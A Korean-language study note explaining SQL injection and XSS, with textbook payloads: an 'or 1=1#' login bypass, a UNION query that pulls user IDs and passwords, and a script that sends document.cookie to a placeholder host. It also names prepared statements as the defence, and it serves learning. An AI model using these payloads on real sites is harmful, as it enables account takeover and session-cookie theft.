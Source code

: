 # SQL Injection

> DB에 data request를 보내는 SQL 문을 조작하여 비정상적인 실행을 이끌어내는 공격

> 예시1

    SELECT * FROM accounts WHERE username ='$USERNAME' and password = '$PASSWORD';

    위 SQL문에서 username에 ['or 1=1#]을 대입한다면

    SELECT * FROM accounts WHERE username ='' or 1=1#' and password = '$PASSWORD'; 이 database로 전달되며 이때 username 부분이 or 1=1 으로 모두 참이 되고, 뒷 부분은 모두 주석처리(#)가 되어 궁극적으로 accounts table에 있는 첫 번째 user 정보를 가져오게 되며 주로 첫 번째 user 정보는 admin(관리자)이다.


> 예시2
    
    Union사용
    input: 1' union select user_id, password from users; --

    -> SELECT * FROM accounts WHERE username ='1' union select user_id, password from users; --$USERNAME' and password = '$PASSWORD';

    union 을 이용하여 또 다른 특정 조건없이 모든 user_id와 password에 접근하는 query문을 실행한다, (--는 뒷부분 주석처리)



> SQL Injection 공격은 prepared statement를 사용한다면 쉽게 방어할 수 있다.

# XSS

> XSS는 script code를 insert하여 비정상적인 기능을 실행하는 공격

> Stored XSS: 웹 서버에 script를 저장했다가 누군가 해당 script에 접근했을 때 실행되는데 주로 게시판에 이용된다.

    input: @@@@ <script>공격코드</script>
    output: @@@@
    input에 이런식으로 삽인한다면 output은 내용(@@@@)만 출력되지만 실제로는 script 안에 있는 공격코드도 실행하게 된다.


> Reflected XSS: 요청 메세지에 입력된 script 코드가 즉시 응답 메세지를 통해 출력되는 공격

    input:<script>alert(1)</script>
    output: alert(1)
    1이라는 내용을 가진 alert가 실행된다

    만약 alert안에 1이 아닌 document.cookie가 입력된다면 스크립트 코드로 인해 쿠키값이 출력된다.
    만약 이를 악용한다면
    <script>document.location='http://지정한위치/cookie?'+document.cookie</script> 를 입력한다면 지정한 위치로 사용자의 cookie값을 redirect한다.


> 